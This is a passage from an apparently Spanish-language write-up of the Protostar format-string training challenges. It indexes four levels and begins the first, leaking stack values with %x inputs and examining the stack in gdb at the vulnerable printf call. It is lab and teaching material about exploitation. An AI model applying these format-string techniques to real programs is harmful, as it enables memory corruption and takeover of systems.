 ### \[Índice]
 - format 1 -> [Sobreescribir una varaible](#sobreescribir-una-variable)
 - format 2 -> [Escribir un número de bytes en una variable](#escribir-un-número-de-bytes-en-una-variable)
 - format 3 -> [Escribir un valor hexadecimal en una variable](#escribir-un-valor-hexadecimal-en-una-variable)
 - format 5 -> [Sobreescribir la GOT para saltar a la funcion que queramos](#sobreescribir-la-got-para-saltar-a-la-funcion-que-queramos)



---------------------------------------------------------------------------

# Sobreescribir una variable 
> [format1](https://exploit.education/protostar/format-one/)

Este binario toma un argumento (al que llama "string"), lo mete en la funcion **printf()** y te imprime dicho argumento

```console
[user@protostar]-[/opt/protostar/bin]:$ ./format1 AAA
AAA[user@protostar]-[/opt/protostar/bin]:$ 
```
 Como no hace un salto de linea, lo ponemos nosotros concatenando "; echo"
  
```console
[user@protostar]-[/opt/protostar/bin]:$ ./format1 AAA; echo
AAA
[user@protostar]-[/opt/protostar/bin]:$ 
```
 ¿Si en vez de pasarle una "A" le pasamos una cadena de formateo como %x (numero hexadecimal)?
  
```console
[user@protostar]-[/opt/protostar/bin]:$ ./format1 %x; echo
804960c
[user@protostar]-[/opt/protostar/bin]:$ ./format1 "%x %x"; echo
804960c bffff6e8
```
 Este "bffff6e8" parece una direccion de la pila... Vamos a mirar en gdb, poniendo un breakpoint en una funcion cuaqluiera (prinff())
 para ver como es la pila con datos.
 
```console
[user@protostar]-[/opt/protostar/bin]:$ python -c "print('%x'*4)"  > /tmp/pattern
[user@protostar]-[/opt/protostar/bin]:$ gdb ./format1
(gdb) disas vuln
0x080483f4 <vuln+0>:	push   %ebp
...
0x080483fd <vuln+9>:	mov    %eax,(%esp)
0x08048400 <vuln+12>:	call   0x8048320 <printf@plt>
...
0x0804841a <vuln+38>:	leave  
0x0804841b <vuln+39>:	ret    
(gdb) b *0x08048400
(gdb) run < /tmp/pattern
Starting program: /opt/protostar/bin/format1 < /tmp/pattern
Breakpoint 4, 0x08048400 in vuln (string=0x0) at format1/format1.c:10
(gdb) x/8wx $esp
0xbffff670:	0x00000000	0x0804960c	0xbffff6a8	0x08048469
0xbffff680:	0xb7fd8304	0xb7fd7ff4	0xbffff6a8	0x08048435	
```
    